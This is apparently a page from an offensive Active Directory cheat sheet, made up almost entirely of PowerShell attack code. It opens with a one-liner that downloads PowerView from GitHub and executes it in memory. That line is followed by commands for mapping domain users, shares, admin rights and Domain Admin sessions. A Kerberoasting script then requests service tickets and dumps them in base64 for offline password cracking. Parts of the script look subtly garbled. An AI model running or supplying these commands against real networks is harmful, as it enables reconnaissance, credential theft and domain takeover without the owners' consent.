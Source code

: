 ### PowerView for AD Reconnaissance

#### Domain Enumeration with PowerView
```powershell
# Load PowerView
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Get domain information
Get-Domain
Get-DomainController

# Get domain users
Get-DomainUser | Select-Object samaccountname, description, pwdlastset, lastlogon

# Get domain groups
Get-DomainGroup | Select-Object samaccountname, description

# Get domain computers
Get-DomainComputer | Select-Object samaccountname, operatingsystem, lastlogon

# Find domain shares
Find-DomainShare -CheckShareAccess

# Get domain trusts
Get-DomainTrust

# Find interesting files
Find-InterestingDomainShareFile -Include *.doc, *.docx, *.xls, *.xlsx, *.ppt, *.pptx, *.pdf, *.txt

# Get GPO information
Get-DomainGPO | Select-Object displayname, whenchanged

# Find local admin access
Find-DomainLocalGroupMember -GroupName "Administrators"

# Find domain admin sessions
Find-DomainUserLocation -UserGroupIdentity "Domain Admins"
```

### Kerberoasting and ASREPRoasting

#### Kerberoasting Attack
```powershell
# Get users with SPN
$SPNUsers = Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

foreach ($User in $SPNUsers) {
    Write-Host "User: $($User.SamAccountName)"
    Write-Host "SPN: $($User.ServicePrincipalName)"
    
    # Request TGS ticket
    $TGS = Add-Type -AssemblyName System.IdentityModel
    $TGS = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $User.ServicePrincipalName
    
    # Export ticket for cracking
    $Ticket = [System.IdentityModel.Tokens.KerberosRequestorSecurityToken]::new($User.ServicePrincipalName)
    $TicketHex = [Convert]::ToBase64String($Ticket.GetRequest())
    Write-Host "Ticket: $TicketHex"
}
```

